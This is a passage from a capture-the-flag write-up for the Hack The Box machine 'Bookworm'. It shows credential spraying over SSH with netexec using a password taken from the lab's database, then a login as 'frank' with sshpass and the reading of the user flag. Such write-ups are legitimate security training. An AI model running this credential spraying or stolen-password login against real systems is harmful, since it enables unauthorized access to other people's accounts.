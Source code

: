 I've got three usernames from the `passwd` file, and now another
username and password from the database. `netexec` (formerly
`crackmapexec`) is a quick way to check if any work over SSH. I like to
include `--continue-on-success` to see if multiple users might use that
password:



    oxdf@hacky$ netexec ssh bookworm.htb -u users.txt -p FrankTh3JobGiver --continue-on-success
    SSH         10.10.11.215    22     bookworm.htb     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
    SSH         10.10.11.215    22     bookworm.htb     [+] frank:FrankTh3JobGiver  - shell access!
    SSH         10.10.11.215    22     bookworm.htb     [-] neil:FrankTh3JobGiver Authentication failed.
    SSH         10.10.11.215    22     bookworm.htb     [-] james:FrankTh3JobGiver Authentication failed.
    SSH         10.10.11.215    22     bookworm.htb     [-] bookworm:FrankTh3JobGiver Authentication failed.



It works for frank!

#### SSH

I'm able to get a shell as frank:



    oxdf@hacky$ sshpass -p FrankTh3JobGiver ssh frank@bookworm.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
    ...[snip]...
    frank@bookworm:~$ 



And `user.txt`:



    frank@bookworm:~$ cat user.txt
    067130be************************



## Shell as neil

### Enumeration

#### Home Directories

frank's home directory is very empty:



    frank@bookworm:~$ ls -la
    total 36
    drwxr-xr-x 5 frank frank 4096 May 24  2023 .
    drwxr-xr-x 5 root  root  4096 Jun  5  2023 ..
    lrwxrwxrwx 1 root  root     9 Jan 30  2023 .bash_history -> /dev/null
    -rw-r--r-- 1 frank frank  220 Jan 30  2023 .bash_logout
    -rw-r--r-- 1 frank frank 3771 Jan 30  2023 .bashrc
    drwx------ 2 frank frank 4096 May  3  2023 .cache
    drwxrwxr-x 3 frank frank 4096 May  3  2023 .local
    lrwxrwxrwx 1 root  root     9 Jan 30  2023 .mysql_history -> /dev/null
    -rw-r--r-- 1 frank frank  807 Jan 30  2023 .profile
    drwx------ 2 frank frank 4096 May  3  2023 .ssh
    -rw-r----- 1 root  frank   33 Jan 17 11:14 user.txt
